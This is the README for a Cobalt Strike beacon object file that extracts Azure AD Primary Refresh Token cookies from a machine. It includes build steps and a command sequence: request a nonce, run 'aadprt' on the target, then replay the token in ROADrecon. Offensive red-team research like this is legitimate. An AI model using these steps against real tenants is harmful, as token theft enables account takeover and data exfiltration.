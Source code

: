 # aad_prt_bof

This bof allows Cobalt Strike to extract Azure AD PRT tokens from the machine.
These tokens can then be used with tools like ROADTools to extract AAD information.

## How to compile
`make` for the beacon object files

`make test` for an executable

## Usage

After compiling, load the (.cna) file into Cobalt Strike.

1. Request a nonce using [ROADtoken](https://github.com/dirkjanm/ROADtoken): `roadtoken auth --prt-init`
2. Request a token on the target machine: `aadprt [NONCE]`
3. Use the token to authenticate in ROADrecon (or any other tool): `roadrecon auth --prt-cookie [TOKEN]`
4. Profit!

## References

Heavily inspired by the awesome work and research of [Dirk-jan](https://twitter.com/_dirkjan) and [Lee](http://twitter.com/tifkin_).

- https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/
- https://github.com/dirkjanm/ROADtoken
- https://github.com/leechristensen/RequestAADRefreshToken
- https://github.com/trustedsec/CS-Situational-Awareness-BOF
